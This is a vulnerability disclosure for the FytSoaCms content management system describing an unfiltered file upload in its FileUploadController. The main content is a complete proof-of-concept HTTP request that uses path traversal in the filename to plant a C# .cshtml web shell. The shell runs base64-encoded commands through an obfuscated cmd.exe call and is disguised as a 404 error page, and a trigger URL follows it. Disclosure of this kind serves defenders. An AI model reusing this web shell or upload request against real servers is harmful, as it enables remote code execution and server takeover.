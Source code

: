 # <font style="color:rgb(0, 0, 0);">Vulnerability Introduction</font>

<font style="color:rgb(0, 0, 0);">Project Address：</font>[https://github.com/feiyit/FytSoaCms](https://github.com/feiyit/FytSoaCms)

Project Name：[FytSoaCms](https://github.com/feiyit/FytSoaCms)

Attackers are allowed to upload arbitrary files. They can upload cshtml files and execute arbitrary code.

# <font style="color:rgb(0, 0, 0);">Vulnerability Analysis</font>

The Index method in the file FytSoaCms-master\FytSoa.Api\Controllers\Admin\FileUploadController.cs

![](https://cdn.nlark.com/yuque/0/2025/png/46456412/1758246169515-9865f857-c5df-4bc4-8fd4-2f11175743fc.png)

<font style="color:rgba(0, 0, 0, 0.85);">Because it directly retrieves the filename and suffix from the data packet and uses them as the filename for local storage without any filtering, attackers can upload cshtml files and further take control of the server.</font>

# <font style="color:rgb(0, 0, 0);">Vulnerability Reproduction</font>

<font style="color:rgba(0, 0, 0, 0.85);">Start Redis 3.2.100 and MySQL 5.7.26</font>  
<font style="color:rgba(0, 0, 0, 0.85);">Modify FytSoaCms-master\FytSoa.Web\appsettings.json to configure MySQL and Redis connection information</font>

![](https://cdn.nlark.com/yuque/0/2025/png/46456412/1758246560735-a4bae8d6-74a8-4b68-8c03-fc840bc1aaed.png)



<font style="color:rgba(0, 0, 0, 0.85) !important;">Modify the MySQL connection information in FytSoaCms-master\FytSoa.Api\appsettings.json</font>

![](https://cdn.nlark.com/yuque/0/2025/png/46456412/1758246639280-f8bfba81-9f18-497e-af2c-6f88df8b2847.png)



<font style="color:rgba(0, 0, 0, 0.85);">Navigate to the </font>`<font style="color:rgba(0, 0, 0, 0.85);">FytSoaCms-master\FytSoa.Web</font>`<font style="color:rgba(0, 0, 0, 0.85);"> directory and open the command line.</font>  
<font style="color:rgba(0, 0, 0, 0.85);">Run </font>`<font style="color:rgba(0, 0, 0, 0.85);">dotnet run</font>`

![](https://cdn.nlark.com/yuque/0/2025/png/46456412/1758246692062-ee05a409-77a5-4d96-8a1e-578d2d44f32f.png)

`<font style="color:rgba(0, 0, 0, 0.85) !important;">.NET Core 2.2.8</font>`<font style="color:rgba(0, 0, 0, 0.85);"> may need to be installed first.</font><font style="color:rgba(0, 0, 0, 0.85) !important;"> </font>

[https://dotnet.microsoft.com/en-us/download/dotnet/2.2](https://dotnet.microsoft.com/en-us/download/dotnet/2.2)

<font style="color:rgba(0, 0, 0, 0.85) !important;"></font>

<font style="color:rgba(0, 0, 0, 0.85) !important;">Upload the file</font>

```csharp
POST /api/upload/Index HTTP/1.1
Host: localhost:4912
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary93C7QCtjWsrq4Mbu
Accept-Encoding: gzip, deflate, br, zstd
Accept: application/json, text/javascript, */*; q=0.01
sec-ch-ua-mobile: ?0
sec-ch-ua: "Google Chrome";v="123", "Not:A-Brand";v="8", "Chromium";v="123"
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Sec-Fetch-Dest: empty
Sec-Fetch-Site: same-origin
sec-ch-ua-platform: "Windows"
Origin: http://localhost:4912
Sec-Fetch-Mode: cors
Content-Length: 539

------WebKitFormBoundary93C7QCtjWsrq4Mbu
Content-Disposition: form-data; name="file"; filename="../../../Pages/Index2.cshtml"
Content-Type: application/octet-stream


@page
@using System.Text
@model ErrorModel
@{
    ViewData["Title"] = "Error";
    Layout = null;
}
@{
    if (HttpContext.Request.Query.ContainsKey("content"))
    {
        String content = System.Text.Encoding.GetEncoding("utf-8").GetString(Convert.FromBase64String(HttpContext.Request.Query["content"]));
        System.Diagnostics.Process p = new System.Diagnostics.Process();
        p.StartInfo.FileName = "c@m@d.e@x@e".Replace("@", "");
        p.StartInfo.Arguments = "/c " + content;
        p.StartInfo.UseShellExecute = false;
        p.StartInfo.RedirectStandardOutput = true;
        p.StartInfo.RedirectStandardError = true;
        p.Start();
        byte[] data = System.Text.Encoding.Default.GetBytes(p.StandardOutput.ReadToEnd() + p.StandardError.ReadToEnd());
        <pre>@Encoding.UTF8.GetString(data)</pre>
    }
}
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<title>QYZQ</title>
<meta name="viewpoint" content="width=device-width,initial-scale=1">
<link rel="stylesheet" href="/themes/404/404.css" />
<script src="http://cdn.feiyit.com/jquery/jquery.min.js"></script>
</head>
<body>
<div class="code">
<p>ERROR 404</p>
</div>
<div class="road">
<div class="shadow">
<div class="shelt">
<div class="head">
<div class="eyes">
<div class="lefteye">
<div class="eyeball"></div>
<div class="eyebrow"></div>
</div>
<div class="righteye">
<div class="eyeball"></div>
<div class="eyebrow"></div>
</div>
</div>
</div>
</div>
<div class="hat"></div>
<div class="bubble">
<a href="/">Go back Home?</a>
</div>
</div>
</div>
<script type="text/javascript" src="/themes/404/404.js"></script>
</body>
</html>
------WebKitFormBoundary93C7QCtjWsrq4Mbu
Content-Disposition: form-data; name="type"

a
------WebKitFormBoundary93C7QCtjWsrq4Mbu--

```

![](https://cdn.nlark.com/yuque/0/2025/png/46456412/1758246876752-e8b033f7-183e-47a9-83ab-bda25da6a645.png)



<font style="color:rgba(0, 0, 0, 0.85);">Access the page, and you can see that the C# code in </font>`<font style="color:rgba(0, 0, 0, 0.85);">Index2.cshtml</font>`<font style="color:rgba(0, 0, 0, 0.85);"> is executed.</font>

[http://localhost:4912/index2?content=ZGly](http://localhost:4912/index2?content=ZGly)

![](https://cdn.nlark.com/yuque/0/2025/png/46456412/1758246978974-934d15a9-3508-4703-a6ce-f3bb820fd2ad.png)



